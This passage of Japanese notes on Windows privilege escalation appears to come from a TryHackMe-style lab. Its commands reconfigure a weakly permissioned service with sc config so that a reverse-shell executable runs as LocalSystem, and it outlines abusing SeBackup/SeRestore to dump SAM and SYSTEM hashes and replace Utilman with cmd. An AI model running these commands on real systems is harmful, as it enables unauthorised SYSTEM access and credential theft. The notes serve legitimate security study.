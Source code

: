 C:\> sc stop "disk sorter enterprise"
C:\> sc start "disk sorter enterprise"
```

ㅤ  
ㅤ  
### 安全でないサービス権限

**サービス DACL (サービスの実行可能DACLではありません) によってサービスの構成を変更できる場合は、サービスを再設定できる**  
これにより、必要な実行可能ファイルを指定して、SYSTEM 自体を含む任意のアカウントで実行できる  

ㅤ  
ㅤ  
#### サービスDACLを確認する

SysinternalsスイートのAccesschkを使用する  

```
thmserviceのサービスDACLを確認する例:

C:\tools\AccessChk> accesschk64.exe -qlc thmservice
  [0] ACCESS_ALLOWED_ACE_TYPE: NT AUTHORITY\SYSTEM
        SERVICE_QUERY_STATUS
        SERVICE_QUERY_CONFIG
        SERVICE_INTERROGATE
        SERVICE_ENUMERATE_DEPENDENTS
        SERVICE_PAUSE_CONTINUE
        SERVICE_START
        SERVICE_STOP
        SERVICE_USER_DEFINED_CONTROL
        READ_CONTROL
  [4] ACCESS_ALLOWED_ACE_TYPE: BUILTIN\Users  　Usersグループにサービスの構成権限がある
        SERVICE_ALL_ACCESS 　UsersグループでもSERVICE_ALL_ACCESSができることがわかる
```

このように自分自身にサービスの再構成の権限がある場合は、以下でリバースシェルを実行することができる

```
C:\> icacls C:\Users\thm-unpriv\reverseshell.exe /grant Everyone:F
C:\> sc config THMService binPath= "C:\Users\thm-unpriv\rev-svc3.exe" obj= LocalSystem

C:\> sc stop THMService
C:\> sc start THMService
```
ㅤ  
ㅤ  
ㅤ  
ㅤ  
ㅤ  
ㅤ  
## Windows権限の悪用(whoami /priv)

### SeBackup / SeRestoreを悪用する

SeBackupPrivilegeとSeRestorePrivilegeが有効な場合、ユーザーは通常のアクセス制限を迂回して、C:\Windows\system32を含むシステム全体のファイルやディレクトリに対して読み取りおよび書き込みを行う権限を持つ  


**・SAMとSYSTEMを読んでsecretsdumpする**  
**・Utilmanをcmdに書き換える**  

  
ユーザーは、 DACL を無視して、システム内の任意のファイルを読み書きできる  
→**SAM および SYSTEM レジストリ ハイブをコピーして、ローカル管理者のパスワード ハッシュを抽出できる**  

```